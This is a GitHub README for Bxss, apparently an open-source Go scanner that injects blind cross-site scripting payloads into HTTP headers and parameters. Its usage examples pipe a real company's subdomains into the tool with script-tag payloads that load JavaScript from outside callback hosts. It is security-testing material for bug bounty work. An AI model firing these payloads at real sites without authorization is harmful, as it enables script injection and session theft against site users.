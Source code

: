 <h1 align="center">
  <br>
<img src="https://github.com/ethicalhackingplayground/bxss/blob/master/static/blinded-drib.jpg" width="200px" alt="Bxss">
</h1>
<h1 align="center">
Bxss - Blind XSS Scanner

[![Version](https://img.shields.io/github/v/release/ethicalhackingplayground/bxss?style=flat-square)](https://github.com/ethicalhackingplayground/bxss/releases/latest)
[![License](https://img.shields.io/github/license/ethicalhackingplayground/bxss?style=flat-square)](https://github.com/ethicalhackingplayground/bxss/blob/main/LICENSE)
[![Go Report Card](https://goreportcard.com/badge/github.com/ethicalhackingplayground/bxss?style=flat-square)](https://goreportcard.com/report/github.com/ethicalhackingplayground/bxss)
[![Go Reference](https://pkg.go.dev/badge/github.com/ethicalhackingplayground/bxss.svg)](https://pkg.go.dev/github.com/ethicalhackingplayground/bxss)

## </h1>

## Description

Blind XSS Scanner is a tool that can be used to scan for blind XSS vulnerabilities in web applications.

---

### Features

- Inject Blind XSS payloads into custom headers
- Inject Blind XSS payloads into parameters
- Uses Different Request Methods (PUT,POST,GET,OPTIONS) all at once
- Tool Chaining
- Really fast
- Easy to setup

## Install

```
go install -v github.com/ethicalhackingplayground/bxss/v2/cmd/bxss@latest
```

---

## Arguments

| Argument              | Description                              | Default      |
| --------------------- | ---------------------------------------- | ------------ |
| `-appendMode`         | Append the payload to the parameter      |              |
| `-concurrency int`    | Set the concurrency                      | 30           |
| `-header string`      | Set the custom header                    | "User-Agent" |
| `-headerFile string`  | Path to file containing headers to test  |              |
| `-parameters`         | Test the parameters for blind xss        |              |
| `-payload string`     | The blind XSS payload                    |              |
| `-payloadFile string` | Path to file containing payloads to test |              |

---

## Demonstration

[![asciicast](https://asciinema.org/a/mPB0Vms70kvD8dd99BwYi1ucm.svg)](https://asciinema.org/a/mPB0Vms70kvD8dd99BwYi1ucm)

---

### Blind XSS In Parameters

```bash
subfinder uber.com | gau | grep "&" | bxss -appendMode -payload '"><script src=https://hacker.xss.ht></script>' -parameters
```

### Blind XSS In X-Forwarded-For Header

```bash
subfinder uber.com | gau | bxss -payload '"><script src=https://z0id.xss.ht></script>' -header "X-Forwarded-For"
```

---

**If you get a bounty please support by buying me a coffee**

<br>
<a href="https://buymeacoffee.com/zoidsec" target="_blank"><img src="https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: 41px !important;width: 174px !important;box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;-webkit-box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;" ></a>
